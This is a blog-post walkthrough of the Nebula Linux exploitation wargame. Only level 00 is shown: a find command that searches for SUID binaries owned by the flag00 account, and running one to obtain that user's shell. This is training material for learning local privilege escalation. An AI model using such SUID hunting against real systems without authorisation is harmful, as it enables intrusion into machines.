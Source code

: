 ```yaml
---
layout: post
title: Nebula Walkthrough
---
```


Nebula is a virtual machine from [Exploit Exercises][exploit-exercises] that
goes through basic local Linux exploitation. Quoting from the website,

> Nebula takes the participant through a variety of common (and less than common) weaknesses and vulnerabilities in Linux. It takes a look at
> * SUID files
> * Permissions
> * Race conditions
> * Shell meta-variables
> * $PATH weaknesses
> * Scripting language weaknesses
> * Binary compilation failures
>
> At the end of Nebula, the user will have a reasonably thorough understanding of local attacks against Linux systems, and a cursory look at some of the remote attacks that are possible.

Most of the levels are basic but there are a few levels that goes through
interesting techniques. While there are already plenty of writeups for Nebula,
this blog post will document my attempt.

The sha1sum of the ISO I am working with is e82f807be06100bf3e048f82e899fb1fecc24e3a.

* TOC
{:toc}

# level 00

This level requires us to find a Set User ID program that will run as the
“flag00” account.

We can do this with the `find` utility.

```shell
level00@nebula:~$ find / -user flag00 -perm -4000 -print 2> /dev/null
/bin/.../flag00
/rofs/bin/.../flag00
```

Running the `/bin/.../flag00` binary escalates us to the flag00 user.

```shell
level00@nebula:~$ /bin/.../flag00
Congrats, now run getflag to get your flag!
flag00@nebula:~$ whoami
flag00
flag00@nebula:~$ id
uid=999(flag00) gid=1001(level00) groups=999(flag00),1001(level00)
flag00@nebula:~$ getflag
You have successfully executed getflag on a target account
```


[exploit-exercises]: https://exploit-exercises.com
[gnu-coreutils-env]: https://www.gnu.org/software/coreutils/manual/html_node/env-invocation.html
[pcre-modifier]: http://php.net/manual/en/reference.pcre.pattern.modifiers.php
[nebula-11-gist]: https://gist.github.com/graugans/88e6f54c862faec8b3d4bf5789ef0dd9#file-nebula-level11-md